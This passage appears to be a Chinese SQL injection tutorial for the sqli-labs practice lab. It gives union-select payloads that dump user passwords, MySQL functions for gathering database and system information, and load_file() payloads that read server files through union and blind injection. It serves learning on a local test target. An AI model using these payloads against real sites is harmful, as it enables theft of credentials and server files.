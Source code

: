 ```http



十、查找密码
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(password) from security.users),3 --+
这样 这个就完成了  已经拿到了账号密码 。
```

**我们可以通过这些函数获得该数据库的一些重要的信息**

```sql
version() ：数据库的版本     

database() :当前所在的数据库   

@@basedir :  数据库的安装目录

@@datadir ：数据库文件的存放目录     

user() ：数据库的用户   

current_user() : 当前用户名

system_user() : 系统用户名     

session_user() :连接到数据库的用户名
```

#### 文件读写

当有显示列的时候，文件读可以利用 union 注入。当没有显示列的时候，只能利用盲注进行数据读取；

文件写入只能利用 union 注入

示例：读取e盘下3.txt文件

- **union注入读取文件**

```sql
//union注入读取 e:/3.txt 文件
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,2,load_file("e:/3.txt")#
 
//也可以把 e:/3.txt 转换成16进制 0x653a2f332e747874
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,2,load_file(0x653a2f332e747874)#
```

[![RYyqw8.png](https://z3.ax1x.com/2021/06/27/RYyqw8.png)](https://imgtu.com/i/RYyqw8)

盲注读取文件

```sql
//盲注读取的话就是利用hex函数，将读取的字符串转换成16进制，再利用ascii函数，转换成ascii码，再利用二分法一个一个的判断字符，很复杂，一般结合工具完成
http://127.0.0.1/sqli/Less-1/?id=-1' and ascii(mid((select hex(load_file('e:/3.txt'))),18,1))>49#' LIMIT 0,1
```
